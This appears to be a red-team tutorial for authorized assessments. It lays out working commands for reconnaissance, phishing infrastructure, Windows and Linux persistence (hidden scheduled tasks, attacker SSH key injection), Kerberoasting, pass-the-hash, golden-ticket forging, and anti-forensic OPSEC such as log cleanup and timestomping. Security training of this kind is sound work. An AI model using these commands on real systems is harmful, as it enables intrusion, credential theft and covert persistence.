

# Red Team Operations

## Ethical and Legal Framework

All red team activities documented here are intended exclusively for authorized security assessments. Conducting any of these activities against systems without explicit written authorization from the system owner is illegal in virtually all jurisdictions and may constitute criminal computer fraud.

Before any engagement, ensure:
- Written authorization exists, defining scope, permitted techniques, and duration
- Rules of engagement (ROE) are clearly documented and understood by all team members
- Emergency stop procedures are defined and communicated
- Out-of-scope systems and data are explicitly listed
- Legal counsel has reviewed the authorization agreement

---

## Red Team vs. Penetration Testing

| Aspect | Penetration Test | Red Team Operation |
|--------|-----------------|-------------------|
| Objective | Find and document vulnerabilities | Test detection and response capability |
| Scope | Defined technical scope | Broad; mirrors real attacker scope |
| Duration | Days to weeks | Weeks to months |
| Notification | Usually notified (white/grey box) | Typically unknown to defenders (black box) |
| Stealth | Not a primary concern | Critical requirement |
| Success metric | Vulnerabilities found | Objectives achieved without detection |
| Output | Vulnerability report | Adversary simulation report with detection gaps |

---

## Adversary Simulation Framework

Red team operations simulate specific adversaries using documented Tactics, Techniques, and Procedures (TTPs) from MITRE ATT&CK. This allows defenders to identify gaps in detection coverage against realistic threat actors.



---

## Phase 1: Reconnaissance

Reconnaissance is the information-gathering phase. Effective recon reduces risk during later phases by identifying targets, understanding defenses, and selecting the most viable attack paths.

### Passive Reconnaissance (OSINT)

Passive recon collects publicly available information without directly interacting with the target's systems.

**Corporate intelligence:**
```bash
# Whois information
whois targetcorp.com

# DNS records
dig any targetcorp.com
dig mx targetcorp.com
dig txt targetcorp.com

# Certificate transparency (reveals subdomains)
curl https://crt.sh/?q=%.targetcorp.com&output=json | jq '.[].name_value' | sort -u

# ASN lookup (find all IP ranges owned by the organization)
whois -h whois.radb.net -- '-i origin AS12345'

# Shodan (internet-facing services)
shodan search org:"Target Corporation"
shodan host 198.51.100.1
```

**Employee intelligence:**
```bash
# LinkedIn employee enumeration (manual)
# Corporate email format discovery
theHarvester -d targetcorp.com -l 500 -b google,bing,linkedin
theHarvester -d targetcorp.com -b linkedin

# Email format validation
emailhippo.com, hunter.io

# GitHub exposure
# Search GitHub for targetcorp.com, internal hostnames, API keys
site:github.com "targetcorp.com" password
site:github.com "targetcorp.com" internal
```

**Technical OSINT:**
```bash
# Shodan - internet-facing assets, service banners
shodan search hostname:targetcorp.com

# Historical DNS records
viewdns.info, dnsdumpster.com

# Wayback Machine - historical web content
web.archive.org

# Google dorking
site:targetcorp.com filetype:pdf
site:targetcorp.com filetype:xlsx
site:targetcorp.com inurl:admin
site:targetcorp.com "internal use only"
```

### Active Reconnaissance

Active recon involves direct interaction with target systems. This generates logs on the target side and represents the beginning of detectable activity.

**DNS enumeration:**
```bash
# Subdomain brute force
gobuster dns -d targetcorp.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
amass enum -d targetcorp.com
subfinder -d targetcorp.com

# Zone transfer attempt (should fail in properly configured systems)
dig axfr @ns1.targetcorp.com targetcorp.com
```

**Network scanning:**
```bash
# Stealthy SYN scan with service detection
nmap -sS -sV -O -p 1-65535 --min-rate 1000 -T4 target.ip.range/24

# Specific service discovery
nmap -sV -p 80,443,8080,8443,22,3389,445,25,587 target.ip.range/24

# UDP scanning (slower, often overlooked in defenses)
nmap -sU -p 53,67,68,69,123,161,500,514 target.ip.range/24

# Version and script scanning
nmap -sC -sV -p 443 target.ip --script=ssl-enum-ciphers
```

---

## Phase 2: Initial Access

Initial access represents gaining a foothold in the target environment through one of the techniques the target's perimeter or users are vulnerable to.

### Phishing

Phishing remains the most common initial access vector due to the difficulty of technical controls preventing sophisticated, targeted attacks.

**Spear phishing email construction:**
- Research target individuals and their professional context
- Craft pretexts that align with known organizational processes (payroll updates, IT policy changes, shared document notifications)
- Use lookalike domains or legitimate file-sharing services
- Match formatting and tone of legitimate organizational communications

**Infrastructure setup:**
```bash
# Domain purchase - use aged, categorized domain similar to target
# SSL certificate for HTTPS
certbot certonly --standalone -d mail.targetcorp-it.com

# Email infrastructure
# Configure SPF, DKIM, DMARC on sending domain
# Use cloud relay to avoid IP reputation issues
```

**Payload types:**
- HTML attachment with credential harvester
- Office document with macro payload (increasingly blocked; requires older Office or social engineering to enable)
- ISO/LNK combination to bypass Mark of the Web
- PDF with link to phishing page
- Compressed archive with executable

### Exploitation of Public-Facing Applications

```bash
# Web application enumeration
nikto -h https://targetapp.targetcorp.com
gobuster dir -u https://targetapp.targetcorp.com -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

# Check for known CVEs in identified services
searchsploit apache 2.4.49
msfconsole -q -x "search type:exploit name:CVE-2021"

# VPN/remote access exploitation
# Check for Pulse Secure, Citrix, Fortinet CVEs against version banners
```

---

## Phase 3: Persistence

Persistence mechanisms allow the attacker to maintain access if their primary foothold is lost (reboot, credential rotation, etc.).

### Windows Persistence

**Registry Run Keys:**
```powershell
# HKCU - runs for current user (no admin required)
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" `
    -Name "WindowsUpdate" -Value "C:\Users\Public\update.exe"

# HKLM - runs for all users (requires admin)
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" `
    -Name "SecurityClient" -Value "C:\Windows\System32\security.exe"
```

**Scheduled Tasks:**
```powershell
$action = New-ScheduledTaskAction -Execute "C:\Windows\System32\cmd.exe" `
    -Argument "/c powershell -enc BASE64_PAYLOAD"
$trigger = New-ScheduledTaskTrigger -AtLogOn
$settings = New-ScheduledTaskSettingsSet -Hidden
Register-ScheduledTask -TaskName "SystemMaintenance" `
    -Action $action -Trigger $trigger -Settings $settings -RunLevel Highest
```

**WMI Event Subscription (stealthy, fileless):**
```powershell
$Filter = Set-WmiInstance -Namespace root/subscription `
    -Class __EventFilter `
    -Arguments @{
        Name = "SystemFilter"
        EventNamespace = "root/cimv2"
        QueryLanguage = "WQL"
        Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    }
```

### Linux Persistence

```bash
# Cron job
(crontab -l; echo "*/5 * * * * /tmp/.systemd-update > /dev/null 2>&1") | crontab -

# Systemd service
cat > /etc/systemd/system/system-update.service << EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
ExecStart=/usr/bin/python3 /usr/lib/systemd/.update.py
Restart=always

[Install]
WantedBy=multi-user.target
EOF
systemctl enable system-update.service

# SSH authorized key injection
echo "ssh-ed25519 AAAA...attacker_key..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

---

## Phase 4: Privilege Escalation

### Windows Privilege Escalation

**Common escalation paths:**

| Path | Technique |
|------|-----------|
| Unquoted service paths | Service executable path with spaces and no quotes — place malicious binary in writable intermediate path |
| Weak service permissions | Modify service binary path or binary if writable |
| AlwaysInstallElevated | Registry keys enabling MSI installation with SYSTEM privileges |
| Token impersonation | Impersonate higher-privileged token using SeImpersonatePrivilege (Potato family attacks) |
| DLL hijacking | Place malicious DLL in path searched before the legitimate DLL |
| UAC bypass | Various techniques to bypass User Account Control without user prompts |
| Kerberoasting | Request service tickets for SPNs, crack offline to recover service account passwords |

```powershell
# Kerberoasting - request service tickets
Import-Module .\PowerView.ps1
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv tickets.csv

# Crack offline with hashcat
hashcat -m 13100 tickets.csv /usr/share/wordlists/rockyou.txt
```

### Linux Privilege Escalation

```bash
# SUID binaries
find / -perm -4000 2>/dev/null
# Check GTFOBins for exploitation: https://gtfobins.github.io

# Sudo misconfigurations
sudo -l

# World-writable files in PATH
find /usr/local/bin /usr/bin -writable 2>/dev/null

# Cron jobs running as root with writable scripts
cat /etc/crontab
ls -la /etc/cron*

# NFS with root_squash disabled
cat /etc/exports

# Kernel exploits (last resort - high risk of system instability)
uname -a
searchsploit linux kernel $(uname -r)

# LinPEAS/LinEnum for automated enumeration
./linpeas.sh
```

---

## Phase 5: Lateral Movement

Lateral movement allows the attacker to expand access from the initial foothold to additional systems.

### Pass-the-Hash

Windows authenticates via NTLM by transmitting a hash of the password rather than the cleartext password. Captured NTLM hashes can be used to authenticate directly.

```bash
# Extract hashes from compromised host (requires admin/SYSTEM)
impacket-secretsdump administrator@10.10.10.1

# Pass-the-hash authentication
impacket-psexec -hashes :NTLM_HASH administrator@10.10.10.2
crackmapexec smb 10.10.10.0/24 -u administrator -H NTLM_HASH --exec-method smbexec
```

### Kerberos Attacks

**Pass-the-Ticket:**
Forge or steal Kerberos tickets and use them to authenticate.

**Golden Ticket:**
With the KRBTGT account's hash, forge TGTs for any user with any group membership for any service. Valid for the lifetime of the KRBTGT hash.

```bash
# Requires: Domain SID, KRBTGT hash, target username
impacket-ticketer -nthash KRBTGT_HASH -domain-sid S-1-5-21-... -domain targetcorp.com administrator
export KRB5CCNAME=administrator.ccache
impacket-psexec -k -no-pass administrator@dc01.targetcorp.com
```

---

## Operational Security (OPSEC)

OPSEC is the practice of protecting information about red team activities to avoid detection and maintain the effectiveness of the engagement.

### Infrastructure

- Use dedicated C2 infrastructure not shared across engagements
- Use redirectors (NGINX, CDN) in front of C2 servers to obscure actual C2 IP
- Use categorized, aged domains that match expected traffic patterns
- Ensure C2 communication blends with legitimate traffic (HTTPS on 443, use valid certificates)
- Use geographic locations consistent with the simulated adversary

### Tradecraft

- Limit footprint: only run tools necessary for the current objective
- Clean up artifacts (logs, dropped files) as operations proceed
- Live off the land where possible (use built-in OS tools rather than dropped binaries)
- Timestamp artifacts to match creation dates of surrounding files
- Monitor your own C2 traffic for anomalies that would trigger detection

### Living Off the Land (LOLBins)

Use built-in OS binaries for attack techniques to blend with normal system activity:

| Tool | Technique |
|------|-----------|
| `certutil.exe` | Base64 encode/decode, download files |
| `bitsadmin.exe` | File download, persistence |
| `regsvr32.exe` | Execute DLL or script from URL |
| `mshta.exe` | Execute HTA applications from URL |
| `wmic.exe` | Execute commands, lateral movement |
| `powershell.exe` | Nearly everything; use with `-EncodedCommand`, `-ExecutionPolicy Bypass` |
| `rundll32.exe` | Execute DLL exports, load shellcode |
| `schtasks.exe` | Schedule tasks for persistence/execution |
